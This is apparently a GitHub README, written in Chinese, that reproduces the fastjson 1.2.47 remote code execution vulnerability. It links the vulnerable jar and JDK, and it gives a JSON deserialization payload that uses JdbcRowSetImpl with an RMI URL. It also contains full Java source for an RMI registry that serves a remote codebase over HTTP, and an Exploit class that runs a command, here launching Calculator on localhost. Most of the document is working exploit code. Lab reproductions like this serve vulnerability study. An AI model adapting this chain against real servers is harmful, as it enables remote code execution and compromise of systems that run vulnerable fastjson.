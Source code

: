 # fastjson-v1.2.47-RCE 漏洞复现

## fastjson-1.2.47 <==

### 资源下载:
```
下载 http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.47/
文档 https://github.com/alibaba/fastjson/wiki/%E5%B8%B8%E8%A7%81%E9%97%AE%E9%A2%98
源码 https://github.com/alibaba/fastjson/archive/1.2.47.zip

jar http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.47/fastjson-1.2.47.jar
Java SE Development Kit 8u60
https://download.oracle.com/otn/java/jdk/8u60-b27/jdk-8u60-windows-x64.exe
```

![](./Fastjson.jpg)

## poc.java

`{ "name ":{ "@type ": "java.lang.Class ", "val ": "com.sun.rowset.JdbcRowSetImpl "}," +" "xxxx ":{ "@type ": "com.sun.rowset.JdbcRowSetImpl ", "dataSourceName ":" +" "rmi://localhost:1099/Exploit ", "autoCommit ":true}}}`

```
import com.alibaba.fastjson.JSON;


public class poc {

    public static void main(String[] argv) {
        String payload = "{\"name\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
                "\"xxxx\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":" +
                "\"rmi://localhost:1099/Exploit\",\"autoCommit\":true}}}";
        JSON.parse(payload);
    }

}
```
## rmiServer.java

`javac rmiServer.java`

`java rmiServer`

`python -m SimpleHTTPServer`

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class rmiServer {

    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("Exloit",
                "Exploit","http://localhost:8000/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("Exploit",referenceWrapper);
    }
}
```


## Exploit.java

`javac Exploit.java`

```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class Exploit implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        exec("xterm");
        return null;
    }

    public static String exec(String cmd) {
        try {
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
        return "";
    }

    public static void main(String[] args) {
        exec("123");
    }
}
```
## 参考链接

https://www.03sec.com/3240.shtml


